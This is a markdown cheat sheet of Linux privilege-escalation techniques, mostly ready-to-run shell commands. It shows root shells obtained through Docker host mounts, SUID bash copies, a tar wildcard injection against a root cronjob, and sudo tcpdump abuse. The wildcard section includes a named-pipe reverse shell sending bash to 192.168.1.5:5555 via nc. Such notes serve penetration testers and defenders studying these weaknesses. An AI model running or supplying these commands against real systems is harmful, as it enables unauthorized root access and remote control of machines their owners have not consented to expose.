 # Linux Privilege Escalation

## Docker Privilege Escalation
```shell
# Creates a root SUID sh executable on the host that will give us root shell
docker run -t -v $PWD:/root ubuntu /bin/sh -c "cp /bin/sh /root/ && chown root.root /root/sh && chmod a+s /root/sh"

# Spawns a root shell on the host
docker run -v /:/root -i -t 8cedef9d7368 chroot /root
```

## SUID Privilege Escalation
```shell
# Creates a SUID binary that is a copy of bash owned by root. Last command spawns the root shell
cp /bin/bash /tmp/shell && chown root.root /tmp/shell && chmod 6755 /tmp/shell; /tmp/shell -p
```

## Wildcard Injection Privilege Escalation
In this example, a cronjob is running that creates a backup tar.gz file compressing all the files under a directory. Naming the files as tar command line arguments will run the rshell.sh script and give root shell access.

```text
## /etc/crontab entry
*/5 * * * * root /usr/bin/compress.sh

## /usr/bin/compress.sh file
#!/bin/sh
rm -f /home/test/backup/backup.tar.gz
cd /home/test/backup
tar cfz /home/test/backup *
chown test:test /home/test/backup/backup.tar.gz
rm -f /home/test/backup/*.BA
```

```shell
touch ./'--checkpoint-action=exec=bash rshell.sh'
touch ./'--checkpoint=1'
echo 'cd /tmp;mknod mypip p; /bin/bash 0< /tmp/mypip | nc 192.168.1.5 5555 1> /tmp/mypip' > ./rshell.sh && chmod 755 ./rshell.sh
```

## TCPDump Privilege Escalation
In this example, a user has sudo access to execute tcpdump without asking for a password.

```shell
echo 'cp /bin/bash /tmp/bash && chown root.root /tmp/bash && chmod +s /tmp/bash' > /tmp/shell.sh; chmod 755 /tmp/shell.sh
sudo tcpdump -W 1 -w /dev/null -G 1 -z /tmp/shell.sh -Z root
/tmp/bash -p
```